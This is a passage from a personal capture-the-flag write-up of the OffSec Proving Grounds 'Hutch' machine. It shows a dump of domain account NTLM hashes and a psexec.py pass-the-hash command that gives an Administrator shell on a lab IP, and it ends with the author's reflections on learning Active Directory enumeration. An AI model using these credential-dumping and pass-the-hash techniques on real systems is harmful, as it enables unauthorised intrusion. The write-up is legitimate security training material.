 ```bash
hutch.offsec\rplacidi:1103:aad3b435b51404eeaad3b435b51404ee:c11f1141ab4c1e825a11f15836e6978f:::
hutch.offsec\opatry:1104:aad3b435b51404eeaad3b435b51404ee:c11f1141ab4c1e825a11f15836e6978f:::
hutch.offsec\ltaunton:1105:aad3b435b51404eeaad3b435b51404ee:c11f1141ab4c1e825a11f15836e6978f:::
hutch.offsec\acostello:1106:aad3b435b51404eeaad3b435b51404ee:c11f1141ab4c1e825a11f15836e6978f:::
hutch.offsec\jsparwell:1107:aad3b435b51404eeaad3b435b51404ee:c11f1141ab4c1e825a11f15836e6978f:::
hutch.offsec\oknee:1108:aad3b435b51404eeaad3b435b51404ee:c11f1141ab4c1e825a11f15836e6978f:::
hutch.offsec\jmckendry:1109:aad3b435b51404eeaad3b435b51404ee:c11f1141ab4c1e825a11f15836e6978f:::
hutch.offsec\avictoria:1110:aad3b435b51404eeaad3b435b51404ee:c11f1141ab4c1e825a11f15836e6978f:::
hutch.offsec\jfrarey:1111:aad3b435b51404eeaad3b435b51404ee:c11f1141ab4c1e825a11f15836e6978f:::
hutch.offsec\eaburrow:1112:aad3b435b51404eeaad3b435b51404ee:c11f1141ab4c1e825a11f15836e6978f:::
hutch.offsec\cluddy:1113:aad3b435b51404eeaad3b435b51404ee:c11f1141ab4c1e825a11f15836e6978f:::
hutch.offsec\agitthouse:1114:aad3b435b51404eeaad3b435b51404ee:c11f1141ab4c1e825a11f15836e6978f:::
hutch.offsec\fmcsorley:1115:aad3b435b51404eeaad3b435b51404ee:83bcf188adc71adef071303fae29c1c7:::
hutch.offsec\domainadmin:1116:aad3b435b51404eeaad3b435b51404ee:8730fa0d1014eb78c61e3957aa7b93d7:::
HUTCHDC$:1000:aad3b435b51404eeaad3b435b51404ee:151657b4aa87d85cebc0543e9d1f095b:::
```

# Getting the shell

`psexec.py Administrator@192.168.175.122 -hashes aad3b435b51404eeaad3b435b51404ee:333078b4951591731a68da1d3fb53cdb`

![Screenshot 2023-09-26 at 01.04.32.png](Hutch%20aac63fefd54b41fd85acd5e7ed833711/Screenshot_2023-09-26_at_01.04.32.png)

# Note 
Cracking Windows machines has always posed a challenge for me. In this instance, the LDAP protocol emerged as the pivotal factor in gaining access to critical information. I delved into the world of Impacket scripts for robust Active Directory enumeration and mastered the intricacies of psexec.

Having rooted nearly 30 machines on the proving ground, I'm left with the sense that there are still protocols waiting to be unraveled. I'm determined to keep honing my skills until I feel completely at ease with any protocol I encounter.

